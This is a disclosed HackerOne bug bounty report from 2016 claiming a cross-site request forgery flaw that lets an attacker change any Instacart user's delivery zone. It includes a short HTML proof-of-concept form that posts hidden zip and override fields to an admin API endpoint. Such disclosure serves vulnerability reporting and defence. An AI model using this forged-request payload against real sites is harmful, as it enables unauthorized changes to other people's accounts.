 # Cross-Site Request Forgery (CSRF)

## Report Details
- **Report ID**: 157993
- **URL**: https://hackerone.com/reports/157993
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-08-09T21:52:49.883Z
- **Disclosed**: 2016-10-13T20:21:53.860Z

## Reporter
- **Username**: malcolmx
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: instacart

## Vulnerability Information
Hello,

i found Cross-Site Request Forgery (CSRF) that can change any user ZONE 

POC:

```
<html>
  <body>
    <form action="https://admin.instacart.com/api/v2/zones" method="POST">
      <input type="hidden" name="zip" value="10001" />
      <input type="hidden" name="override" value="true" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```
put Zone you want send the request to any user and you will change his Zone

__Please Watch My POC I Attached For More Details__
Thanks

## Attachments
- CSRF_Change_Any_User_Zone_POC.mp4
